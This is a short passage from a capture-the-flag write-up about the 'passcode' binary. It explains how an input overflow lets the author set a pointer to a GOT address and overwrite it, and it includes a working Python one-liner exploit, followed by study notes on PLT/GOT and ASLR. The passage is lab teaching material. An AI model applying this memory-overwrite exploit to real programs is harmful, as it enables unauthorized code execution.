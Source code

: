 ```
$ python3 find.py
Overwritten completely at 100 a's
```

Which, to be fair, is probably what one would guess if they had one guess. But, this gives us everything we need for the exploit: we can use name to set `passcode1` to 0x804a004 and then write the value 0x80485d7 = 134514135 to it. Using a long one-liner: `python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 96 + 0x804a004.to_bytes(4, "little") + b"\n134514135\n")' | ./passcode`, we obtain the flag.

To expand upon later:

* pass-by-ref vs pass-by-copy and C semantics vs (e.g.,) Python, C++
* plt/got/linker/airs 20 part series
* see if personality lets us beat ASLR
* parenthetical in footnote 1
* avoiding spaces in `scanf("%100s")` call

[^1]: Interestingly, although `clangd` tells me about the problem with the 3rd `scanf` call (off-by-one on the buffer size), `gcc` did not report it (I have not yet investigated whether fixing the first two errors lets it report the third).
